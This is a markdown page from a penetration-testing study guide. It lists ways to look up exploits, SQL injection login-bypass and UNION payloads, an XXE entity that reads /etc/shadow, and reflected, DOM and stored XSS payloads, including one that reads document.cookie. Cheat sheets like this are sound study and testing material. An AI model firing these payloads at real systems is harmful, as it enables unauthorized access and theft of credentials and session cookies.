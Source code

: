 # TABLE OF CONTENTS
1. [GENERAL](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_General.md#general)
2. [SQL](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_General.md#sql)
3. [XML](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Pentest/3_Exploitation_General.md#xml)
4. [XSS]

# GENERAL
## Search Exploits
- google --> <service_name> [version] exploit
- shodan --> https://exploits.shodan.io/
- searchsploit (= ExploitDB lookup) --> CLI Example: `searchsploit apache mod_ssl`
- msf: `search platform:windows port:135 target:XP type:exploit`

# SQL
**>> Full Cheat Sheet: [www.netsparker.com/blog](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)**

## SQL Types
1. MySQL
2. SQL Server
3. PostgreSQL
4. Oracle
5. Others

## SQL Injection: Quick and Dirty
```
admin' --
admin' #
admin'/*
' or 1='1
' or 1=1--
' or 1=1#
' or 1=1/*
') or ‘1’ =’1--
') or (‘1’=’1--
' || 1=’1
```

## SQL Attack Patterns
#### Comment
```
1) --
2) /*  */
3) #
```

#### Combine Queries 
- `SELECT * FROM xyz ; SELECT * FROM abc`

#### UNION injections
- You can poison query to return records from different tables
- `SELECT username, admin FROM members UNION SELECT password, admin FROM members`


## Tools
#### mssqlclient.py
- `python3 mssqlclient.py USER@10.10.10.27 -windows-auth`
- `SELECT IS_SRVROLEMEMBER('sysadmin')`
   - Output "1" = yes

#### sqlmap
- Check out: [3_Exploitation/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md)

<br />

# XML
## Missing Encryption/Input Validation
- XML data vulnerable to spoofing /request forgery / code injection

## XML Bomb
- Entities that expand to exponential size, consuming memory (DoS!)

## XML External Entity (XXE)
- Embeds a request for a local resource
- File Inclusion within XML
  - `<!ENTITY runcode SYSTEM "/etc/shadow">`

<br />

# XSS
## XSS Types

*Attacker embeds malicious scripting commands on a trusted website*

1. **Reflected XSS**
- non-persistent effect activated by a victim clicking a link
- Example: `https://example.com/search?q=<script%20type='application/js'>alert('xss')</script>`
2. **Stored/Persistent XSS**
- Attempts to store data persistently on the web server
3. **DOM-based XSS**
- Attempt to exploit the victim's web browser
- Example: `https://example.com/index.html#default=<script>alert(document.cookie)</script>`

## Attack Patterns
```
<script>alert("XSS LEAK")</script>
<script>alert(document.cookie)</script>
<img src=x onerror=alert(2)>
```
